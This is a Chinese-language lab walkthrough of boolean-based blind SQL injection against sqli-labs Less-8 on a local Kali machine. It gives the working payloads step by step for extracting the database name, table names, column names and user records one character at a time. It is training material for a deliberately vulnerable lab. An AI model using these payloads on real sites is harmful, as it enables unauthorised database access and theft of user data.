




## 准备工作

1. 开启Apache和MySQL

   打开已经安装sqli-labs的kali，输入如下指令

   ```shell
   sudo service apache2 start
   sudo service mysql start
   ```

2. 外部访问slqi网页

   打开宿主机的浏览器，访问

   ```
   http://192.168.3.99/sqli-labs/
   ```

   192.168.3.99为kali的IP地址

3. 使用postman工具

   打开postman工具，跳过登录直接进入主界面

   进入Collections选项卡，点击Create a request创建访问

   

   在地址栏中填入需要执行sql注入的地址，在下面的Query Params中添加要注入的属性和值

   

   点击send发送后，在下方的Body栏中的Preview中可以预览页面

   


## 开始注入

本次注入练习的是sqli-labs里的less8

### 1. 获取数据库名称

1. 通过尝试，id值正确时，网页会显示You are in...........，错误的id值不会出现这段提示，依此确定注入成功与否

   

2. 猜数据库长度：

   ```
   1' and if(length(database())=8,1,0) --+
   							 ↑
   						  从1开始猜
   ```

   - length(a)：获取字符a的长度

3. 猜测数据库第一个字母

   将id值设为

   ```
   1' and if(ascii(substr(database(),1,1)) = 115,1,0) --+
   								↗		   ↑
   					猜数据库的第几个字母	 猜a-z,0-9,A-Z的ascii码值
   ```
   
   解析：
   
   - if(a,b,c)：a是一个表达式，如果正确返回b，错误返回c
   - substr(a,b,c)：a为需要截取的字符串，b是起始位置（以1开始），c为要截取的长度
   - ascii(a)：将字符a转换成ascii码
   
   第一个字母为115号ascii码值：s，后面7个字符一个个试

### 2. 获取数据库下的表名

1. 表的数量

   ```
   1' and if((select count(*)table_name from information_schema.tables where table_schema='security')=4,1,0) --+
   ```

2. 表名称的长度

   ```
   1' and if((select length(table_name) from information_schema.tables where table_schema='security' limit 0,1)=6,1,0) --+
   								   ↑
   								 从1开始
   ```

   select length(table_name) from information_schema.tables where table_schema='security' limit 0,1解析：

   返回结果是当前表的表名长度

3. 表名称

   ```
   1' and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101,1,0) --+
   ```

   需要修改的值跟猜数据库名时一样

### 3. 获取列名

1. 字段数量

   ```
   1' and if((select count(*)column_name from information_schema.columns where table_schema='security'and table_name='users')=3,1,0) --+
   ```

   select count(*)column_name from information_schema.columns where table_schema='security'and table_name='users'

   查询结果为user表下的字段数量

2. 字段长度

   ```
   1' and if((select length(column_name) from information_schema.columns where table_schema='security' and table_name='users' limit 0,1)=2,1,0) --+
   ```

   select length(column_name) from information_schema.columns where table_schema='security' and table_name='users' limit 0,1

   查询结果为第一个字段的长度

   - 修改limit 0,1中的0,1来决定猜第几个字段
   - 修改2,1,0中的2来猜这个字段的长度

3. 字段名称

   ```
   1' and if(ascii(substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 1,1),1,1))=117,1,0) --+
   ```

   select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 1,1

   查询结果是字段名

    

### 4. 获取数据

1. 数据库表的数据数量

   ```
   1' and if((select count(username) from users)=13,1,0) --+
                                                  ↑
                                                 数量
   ```

2. 数据的长度

   ```
   1' and if((select length(username) from users limit 0,1)=4,1,0) --+
                                                            ↑
                                                           长度
   ```

3. 数据值

   ```
                                                      第n个字符 ↘
   1' and if(ascii(substr((select username from users limit 0,1),1,1))=68,1,0) --+
                                                                       ↑
                                     ↑             ↑        ↑       字符的ascii
                                    字段名        表名    第n-1条记录
   ```

   

